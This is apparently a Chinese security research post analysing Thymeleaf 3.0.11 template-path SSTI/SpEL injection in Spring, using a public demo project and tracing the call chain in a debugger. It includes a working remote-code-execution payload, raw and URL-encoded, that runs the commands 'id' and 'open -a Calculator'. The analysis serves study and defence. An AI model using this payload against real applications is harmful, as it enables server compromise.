



本文只以`thymelafe 3.0.11.RELASE`在spring中的不同攻击方法，如SpEL、SSTI，然后会在另一篇文章中分析不同版本下的注入攻击和绕过。

为了对thymeleaf的漏洞更加理解，这里贴出我认为比较好的帖子，同时参考链接🔗中的帖子顺序也是我觉得最舒服的顺序，同时我给这些帖子做了小总结，可以根据我的小总结直接寻找最适合自己的观看顺序。

## 参考链接

google搜到的时间较早的关于thymelafe的SSTI注入研究文章：[exploiting-ssti-in-thymeleaf](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/)


这个项目中演示了多种thymeleaf 3.0.11-RELEASE的攻击方法：[spring-view-manipulation ](https://github.com/veracode-research/spring-view-manipulation)

版本和POC很全，但关于模版内容注入的地方讲的不太清：[Thymeleaf漏洞汇总](https://justdoittt.top/2024/03/24/Thymeleaf%E6%BC%8F%E6%B4%9E%E6%B1%87%E6%80%BB/index.html)，这里提到了沙箱逃逸和沙箱加固，对这里的两个名词不理解，通常我们理解的沙箱应该是独立的机器，或者是程序设计的隔离环境。


thymeleaf 3.1.1 RELEASE基于模版内容注入的RCE：[SpringBootAdmin-thymeleaf-SSTI](https://github.com/p1n93r/SpringBootAdmin-thymeleaf-SSTI)，这个项目中提到了沙箱绕过是指绕过 Thymeleaf 的某些黑名单，而不是利用上下文进行基于反射的逃逸或类似技术，解释了上边我的疑惑。

thymeleaf 3.1.2绕过：[Thymeleaf ssti 3.1.2 黑名单绕过](https://blog.0kami.cn/blog/2024/thymeleaf%20ssti%203.1.2%20%E9%BB%91%E5%90%8D%E5%8D%95%E7%BB%95%E8%BF%87/)

thymeleaf 3.1.2绕过的另一篇文章：[RealWorld CTF 6th 正赛/体验赛 部分 Web Writeup](https://boogipop.com/2024/01/29/RealWorld%20CTF%206th%20%E6%AD%A3%E8%B5%9B_%E4%BD%93%E9%AA%8C%E8%B5%9B%20%E9%83%A8%E5%88%86%20Web%20Writeup/)

## 攻击分析

本文分析都以[spring-view-manipulation ](https://github.com/veracode-research/spring-view-manipulation)代码为例。同时不会提及太多攻击payload外的其他知识，以免文章变得复杂和引出其他更多的问题，所以你看完本文之后应该 思考调用过程和拦截方法的逻辑，同时自己尝试分析更多的spring和thymeleaf的代码。

### 视图解析

如果一个 Controller 方法，满足以下条件，则最终Spring会交给Thymeleaf解析引擎处理后续逻辑：
 - 参数中包含 Model、ModelMap、Map<String,Object>（都属于 Spring MVC 的模型容器）
 - 返回值是 String
 - Controller 上使用的是 @Controller（不是 @RestController）

所以下方的示例中，这个index方法中的返回值`welcome`就会交给Thymeleaf解析引擎，spring默认会找到项目中的：`classpath:templates/welcome.html`模版。其中`classpath:templates/`是默认路径，`.html`是默认后缀。

`classpath:`在不同类型的Java项目中含义不同，但常见`maven/spring`或`gradle/spring`项目中代指这个路径：`src/main/resources`


```java
@Controller
public class HelloController {
    @GetMapping("/")
    public String index(Model model) {
        model.addAttribute("message", "happy birthday");
        return "welcome";
    }
}
```

这个模版中还往Model对象中添加了一个属性键值对`message:happy birthday`，最终这里对Model的操作（ModelMap、Map<String,Object>同理）会被写入到`classpath:templates/welcome.html`中。

让我们先来看看这个html的样子。

```html
<!DOCTYPE HTML>
<html lang="en" xmlns:th="http://www.thymeleaf.org">
<div th:fragment="header">
    <h3>Spring Boot Web Thymeleaf Example</h3>
</div>
<div th:fragment="main">
    <span th:text="'Hello, ' + ${message}"></span>
</div>
</html>
```

thymeleaf解析引擎会识别到`${message}`，同时会在Model对象中找到一个key为`message`的Object填入，因为这里通过Model写入的`"happy birthday"`是个字符串啊，所以最终这个字符串会被渲染到html中，解析器在做完填充后 会抹除除html元素外的其他数据。通过BP发个请求看看效果：



所以这里了解大概的过程了：
- Controller return一个String（模板路径）出来给Spring做后续处理
- Spring识别到thymeleaf方法 - （这里会出发EL表达式解析）
- 分配thymeleaf解析引擎
- 通过thymeleaf引擎渲染html页面 - （这里会触发模版内容注入）
- 返回给调用方

### 模版路径注入

在`Spring识别到thymeleaf方法`这个过程中，会解析return出来的字符串，如果这个字符串中有被`__${`，`}__::.x`包裹起来的EL表达式，在这个过程中就会被执行。

```java
    @GetMapping("/path")
    public String path(@RequestParam String lang) {
        return "user/" + lang + "/welcome"; //template path is tainted
    }
```

比如下边的方法中，如果使用这个payload：
```HTTP
原始payload
__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::.x

实际因为/path是GET方法，所以需要URL编码，payload如下：
__%24%7Bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22id%22).getInputStream()).next()%7D__%3A%3A.x
```

尝试BP一下，看看效果：


response中提示，模版解析失败了，没有这个模板或者配置的模板无法被访问。但可以看到`id`命令已经被执行，并且`id`命令的结果被回显了。产生这个错误的原因是因为项目中确实没有`classpath:templates/user/user/uid=501(erosion2020)/welcome`。

让我们分析一下这个EL表达式是什么时候被执行的，预先在以下方法处打上断点：

- DispatcherServlet#doDispatch(HttpServletRequest, HttpServletResponse) : void
    - DispatcherServlet#getHandler(HttpServletRequest) : HandlerExecutionChain
    - DispatcherServlet#getHandlerAdapter(Object) : HandlerAdapter
    - HandlerAdapter#handle(HttpServletRequest, HttpServletResponse, Object) : ModelAndView
        - AbstractHandlerMethodAdapter#handleInternal(HttpServletRequest, HttpServletResponse, HandlerMethod) : ModelAndView
            - RequestMappingHandlerAdapter#invokeHandlerMethod (HttpServletRequest, HttpServletResponse, HandlerMethod) : ModelAndView
                - ServletInvocableHandlerMethod#invokeAndHandle(ServletWebRequest, ModelAndViewContainer, Object...)
                    - InvocableHandlerMethod#invokeForRequest(NativeWebRequest, ModelAndViewContainer, Object...) : Object
                        - InvocableHandlerMethod#getMethodArgumentValues(NativeWebRequest, ModelAndViewContainer, Object...) : Object[]
                        - InvocableHandlerMethod#doInvoke(Object... args) : Object
                            - HandlerMethod#getBridgedMethod().invoke(getBean(), args) : Object
                    - HandlerMethodReturnValueHandlerComposite#handleReturnValue(Object, MethodParameter, ModelAndViewContainer, NativeWebRequest)
                        - HandlerMethodReturnValueHandlerComposite#selectHandler(Object, MethodParameter) : HandlerMethodReturnValueHandler - ViewNameMethodReturnValueHandler(Controller返回值为String类型的视图时被使用)
                        - HandlerMethodReturnValueHandlerComposite# handleReturnValue(Object, MethodParameter, ModelAndViewContainer, NativeWebRequest) : void
                            - ModelAndViewContainer.setViewName(viewName)
                - → RequestMappingHandlerAdapter#getModelAndView(ModelAndViewContainer, ModelFactory, NativeWebRequest) : ModelAndView
                    - → new ModelAndView(mavContainer.getModel().getViewName(), model, mavContainer.getStatus());
    - DispatcherServlet#processDispatchResult(HttpServletRequest, HttpServletResponse, HandlerExecutionChain, ModelAndView, Exception) : void
        - DispatcherServlet#render(ModelAndView, HttpServletRequest, HttpServletResponse) : void
            - DispatcherServlet#resolveViewName(String, Map<String, Object>, Locale, HttpServletRequest) : View
                - ViewResolver#resolveViewName(String, Locale) : View
            - View#render(Map<String, ?>, HttpServletRequest, HttpServletResponse): void
                - View#renderFragment(Set<String>, Map<String, ?>, HttpServletRequest, HttpServletResponse ): void
                    - IEngineConfiguration configuration = ISpringTemplateEngine#viewTemplateEngine.getConfiguration()   # templateResolvers... prefix = "classpath:/templates/"...
                    - WebExpressionContext context = new WebExpressionContext(configuration, request, response, servletContext, getLocale(), mergedModel)
                    - IStandardExpressionParser parser = StandardExpressions.getExpressionParser(configuration)
                        - IStandardExpressionParser#parseExpression(IExpressionContext, String): Expression
                            - IStandardExpressionParser#parseExpression(IExpressionContext, String, boolean): IStandardExpression
                                - IStandardExpressionParser#preprocess(IExpressionContext, String): String
                                    - Pattern.compile("\_\_(.*?)\_\_", Pattern.DOTALL).matcher(input)   - 检查是否有__xxx__这种的格式
                                    - previousText = checkPreprocessingMarkUnescaping(input.substring(curr_index,matcher.start(0)))     - 查找到__之前的前缀或__和__之间的值
                                    - expressionText = checkPreprocessingMarkUnescaping(matcher.group(1))       - 看__xxx__之间还有没有__符号，如果没有就会原样返回
                                    - IStandardExpression expression = StandardExpressionParser.parseExpression(context, expressionText, false);    - 查找一个
                                    - IStandardExpression(org.thymeleaf.standard.expression.Expression)#execute(IExpressionContext, StandardExpressionExecutionContext)
                                        - StandardExpressions.getVariableExpressionEvaluator(org.thymeleaf.IEngineConfiguration): IStandardVariableExpressionEvaluator
                                    - IStandardExpression(org.thymeleaf.standard.expression.Expression)#execute(IExpressionContext, Expression, IStandardVariableExpressionEvaluator, StandardExpressionExecutionContext): Object
                                        - Expression instanceof SimpleExpression
                                        - → SimpleExpression#executeSimple(context, (SimpleExpression)expression, expressionEvaluator, expContext): Object
                                            - → VariableExpression#executeVariableExpression(context, (VariableExpression)expression, expressionEvaluator, expContext): Object      # expressionEvaluator=SPELVariablesExpressionEvaluator
                                                - IStandardVariableExpressionEvaluator#evaluate(IExpressionContext, IStandardVariableExpression, StandardExpressionExecutionContext): Object
                                                    - spelExpression -> new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("open -a Calculator").getInputStream()).next()
                                                    - ComputedSpelExpression#expression#getValue()
                                                        - CompoundExpression#getValueInternal(ExpressionState): TypedValue
                                                        - CompoundExpression#getValueRef(ExpressionState): ValueRef
                                                            - SpelNodeImpl#getValueInternal result = nextNode.getValueInternal(state);
                                                            - if hasChild
                                                                - nextNode.getValueInternal(state)
                                                                - ...
                                                                - nextNode.getValueInternal(state)
                                                            


        
        


getValueRef(递归EL表达式调用链) -> getValueInternal(递归EL表达式调用链) -> execute(SpEL反射调用链) -> invoke(反射调用链)


